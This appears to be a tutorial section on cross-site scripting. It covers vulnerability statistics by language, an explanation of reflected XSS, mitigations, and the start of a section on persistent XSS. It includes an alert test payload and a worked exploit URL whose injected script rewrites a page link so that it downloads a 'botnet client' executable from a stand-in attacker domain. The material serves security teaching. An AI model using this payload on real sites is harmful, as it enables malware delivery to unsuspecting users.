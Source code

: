  - Java (Web Applications): 57% of Java web app vulnerabilities are XSS
 - Perl (CGI): 67% of Perl web app vulnerabilities are XSS
 - PHP: 56% of PHP web app vulnerabilities are XSS
 - ASP: 49% of ASP web app vulnerabilities are XSS

**Non-Persistent**

Non-persistent XSS is the single most commonly performed XSS attack to date.

Non-persistent XSS is carried out by getting a website to execute attacker-controlled code on the victim's browser. For this reason it is also known as "reflected XSS", because the site simply reflects the attacker-controlled code onto the user's browser. Non-persistent XSS is different than other forms of XSS in that non-persistent XSS does not store the payload anywhere. It is sent without the user knowing (usually through a doctored URL) and the payload is returned in the HTML response.

Typically a hacker will test the site for vulnerabilities with a fuzzer, or by hand testing various exposed parameters by manually trying to inject an alert such as `<script>alert("XSS works >:D");</script>`. Once the attacker has a working vector, a crafted URL can be made and masked using redirects on a site they control. From there, they can send the link (ex. "http://meet-singles-now.ru") and use social engineering to get a user to click on it. This is *very* common in modern spam, and is often time consuming to perform analysis on when it happens because the victim will likely not believe a site that "looks normal" could have attacked them.

Possible Attack Vectors

- Any site that is using endpoints with GET parameters that are inserted directly into the DOM is vulnerable to non-persistent XSS

Example Attack

In the below example, we will override an enticing link on a site we have determined to be vulnerable to download our botnet client. We will focus on attacking a Windows computer (because of the \*.exe), but a similar attack could be done on any system. Suppose the second link on the mysite login page is the login button. The exploited code shown below will download our botnet client to the user's computer. Since we're dealing with Windows in this example, we can add some additional testing code (not shown below) to test for common download locations on the users computer using ActiveX, and then use the Run method to run the executable.

- Normal: `http://mysite.com/login.php?username=angrygoats&startPage=1`
- Exploited: `http://mysite.com/login.php?username=<script>window.onload=function(){var mylinks=document.getElementsByTagName("a");mylinks[1].href="http://meet-singles-now.ru/flash_playerupdate.exe";}</script>`

Mitigation

- Always assume every parameter could be potentially compromised and validate accordingly
- Make sure to HTML encode any output to the screen, this way any tags that are displayed will be safe
- Regularly run web vulnerability scanners such as [Acunetix](http://www.acunetix.com/vulnerability-scanner/download/)


**Persistent**

Persistent XSS is similar to its non-persistent counterpart with the main difference being that the server saves and permanently displays malicious user data. This usually happens on insecure user profile pages or forum posts. Myspace was a shining example of the horrors of persistent XSS.

